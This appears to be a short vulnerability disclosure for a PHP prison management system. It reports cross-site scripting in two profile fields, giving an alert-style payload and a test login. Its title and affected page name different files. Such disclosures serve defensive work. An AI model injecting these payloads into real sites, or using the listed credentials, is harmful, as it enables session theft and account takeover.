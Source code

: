 # Prison Management System
## XSS on `/Admin/changepassword.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://localhost/prison/Account/login.php
password:- escobar2012
Email :- releaseme@gmail.com
```

### Affected Page:

```
/Employee/edit-profile.php
```

The parameter  `txtfullname` and `txtaddress` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# Employee/edit-profile.php
<input type="text" size="77" name="txtaddress" value="USA" class="form-control">
<input type="text" size="77" name="txtfullname" value="hello" class="form-control" required="">
```

### Proof of Concept:

Payload:

```
"><svg/onload=alert(1)>
```


### Screenshot

![image-20240506134915672](./screenshot/image-20240506134915672.png)

![image-20240506134828534](./screenshot/image-20240506134828534.png)

![image-20240506134853589](./screenshot/image-20240506134853589.png)
